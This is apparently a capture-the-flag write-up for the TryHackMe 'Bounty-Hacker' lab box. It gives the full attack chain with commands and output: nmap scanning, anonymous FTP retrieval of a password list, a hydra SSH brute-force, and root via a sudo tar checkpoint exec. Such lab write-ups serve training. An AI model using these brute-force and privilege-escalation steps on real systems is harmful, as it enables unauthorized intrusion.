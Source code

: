 # Bounty-Hacker

**IP:** 10.10.57.14  
**Platform:** THM  
**Difficulty:** Easy  
**OS:** Linux  
**Date:** 01/06/2025

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.57.14 -oA nmap/Bounty-Hacker
```

| Port | Service | Version |
|------|---------|---------|
| 21 | ftp | vsftpd 3.0.3 |
| 22 | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 80 | http | Apache httpd 2.4.18 |

## Enumeration

FTP allowed for anonymous login, I had to disable passive mode in FTP with `passive`. There was two files in the FTP server `locks.txt` and `task.txt`, so I downloaded them.
```bash
ftp 10.10.199.16 21      

Connected to 10.10.199.16.
220 (vsFTPd 3.0.3)
Name (10.10.199.16:wither): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> passive
Passive mode: off; fallback to active mode: off.

ftp> dir
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.

ftp> mget *
mget locks.txt [anpqy?]? 
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |***********************************************************************************************************************************************|   418        8.49 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (5.84 KiB/s)
mget task.txt [anpqy?]? 
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |***********************************************************************************************************************************************|    68        1.00 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.75 KiB/s)

ftp> exit
221 Goodbye.
```

`task.txt` leaked a username `lin`.
```bash
cat task.txt

1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

`locks.txt` contained a list of potential passwords.
```bash                                                             
cat locks.txt 

rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

## Exploitation

I brute forced an SSH login `lin:RedDr4gonSynd1cat3` with hydra.
```bash
hydra -l lin -P locks.txt  ssh://10.10.199.16 -t 10 -vI
...
[22][ssh] host: 10.10.199.16   login: lin   password: RedDr4gonSynd1cat3
...
```

user flag was in `/home/lin/Desktop/user.txt`.
```bash
cat /home/lin/Desktop/user.txt
```

## Privilege Escalation

`lin` could run `/bin/tar` as the `root` user.
```bash
sudo -l

[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

I used this to spawn a privileged shell.
```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

/bin/tar: Removing leading `/' from member names

id
uid=0(root) gid=0(root) groups=0(root)
```

root flag was in `/root/root.txt`
```bash
cat /root/root.txt
```

---

#nmap #ftp-anonymous #hydra #ssh-bruteforce #sudo-privesc #tar-privesc #credential-discovery #thm